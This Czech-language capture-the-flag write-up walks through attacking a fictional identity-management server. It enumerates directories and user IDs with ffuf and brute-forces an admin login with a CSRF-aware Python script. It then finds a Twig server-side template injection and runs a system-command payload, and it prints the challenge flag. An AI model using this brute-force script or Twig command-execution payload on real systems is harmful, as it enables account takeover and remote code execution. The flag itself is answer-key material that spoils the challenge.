

# Role Management System (4)

## Zadání

Hi, emergency troubleshooter,

we urgently need to replace the outdated identity management system with a new progressive solution. Verify that it is functioning properly and that no information leakage is occurring. New instance is running on server `idm-new.powergrid.tcc`.

Stay grounded!

## Nápovědy (Hints)

1. Even if you find what you are looking for, you must use brut(al) force to get it!

## Řešení

Začneme skenováním serveru

`ffuf -u http://idm-new.powergrid.tcc/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
announcement            [Status: 200, Size: 4202, Words: 924, Lines: 135, Duration: 29ms]
index.php               [Status: 200, Size: 1813, Words: 385, Lines: 55, Duration: 21ms]
js                      [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 6ms]
login                   [Status: 200, Size: 2537, Words: 676, Lines: 73, Duration: 24ms]
logout                  [Status: 302, Size: 362, Words: 60, Lines: 12, Duration: 23ms]
server-status           [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 8ms]
styles                  [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 7ms]
user                    [Status: 200, Size: 3060, Words: 850, Lines: 90, Duration: 16ms]
```

Zajímavý je adresář user

`ffuf -u http://idm-new.powergrid.tcc/user/FUZZ -w /usr/share/dirb/wordlists/common.txt`

```text
02                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 41ms]
01                      [Status: 200, Size: 2510, Words: 888, Lines: 71, Duration: 44ms]
04                      [Status: 200, Size: 2506, Words: 888, Lines: 71, Duration: 44ms]
03                      [Status: 200, Size: 2508, Words: 888, Lines: 71, Duration: 45ms]
06                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 42ms]
07                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 42ms]
08                      [Status: 200, Size: 2498, Words: 888, Lines: 71, Duration: 44ms]
09                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 45ms]
05                      [Status: 200, Size: 2502, Words: 888, Lines: 71, Duration: 47ms]
10                      [Status: 200, Size: 2504, Words: 888, Lines: 71, Duration: 51ms]
1                       [Status: 200, Size: 2510, Words: 888, Lines: 71, Duration: 51ms]
...
```

Uživatel `http://idm-new.powergrid.tcc/user/22` má oprávnění `ROLE_ADMIN`.

```text
Username: ella.reed
Email: ella.reed@powergrid.tcc
Roles:
ROLE_ADMIN ROLE_USER
```

Stránka je opět zabezpečena pomocí CSRF, takže na hádání hesel použijeme skript, který si s tím poradí.

```python
import requests
import time

s = requests.Session()

r = s.get("http://idm-new.powergrid.tcc/login")

csrf = r.text.split('name="_csrf_token" value="')[1].split('"')[0]

passwords = open("john.lst", "br").read().split(b"\n")

for password in passwords:
    print(password)
    r = s.post("http://idm-new.powergrid.tcc/login",
            data={"_username" : "ella.reed@powergrid.tcc", "_password" : password, "_csrf_token" : csrf})

    if r.status_code != 200:
        print("Error", r.status_code)
        continue

    if not "Invalid credentials" in r.text:
        print("--> ",password)
        exit()
```

Heslo `123abc` je brzy nalezeno.

Na administrační stránce <http://idm-new.powergrid.tcc/admin/users> je zadávací pole pro vyhledávání uživatelů. Pokud zadáme `${{<%[%'"}}%\.`, server odpoví

`No users found for query: Unexpected character "'" in "__string_template__d76c5c01274d0ce05c0b3d779259adbe" at line 1.`

To znamená, že útok bude směřovat na SSTI (Server Side Template Injection).

Zkoušením podle tabulky



Je backend buď Jinja2 nebo Twig.

Podle testu `{{7*'7'}}`, který vrátil 49 je backend Twig.

`{{['set'] | filter('system')}}` vrátí Base64 FLAG `RkxBR3tUaEtILWRxaW8tNDlBWC1TWmxHfSAK`

Zdrojový kód WEB serveru je možné si prohlédnout v [app.tar.gz](app.tar.gz).

## Flag

`FLAG{ThKH-dqio-49AX-SZlG}`
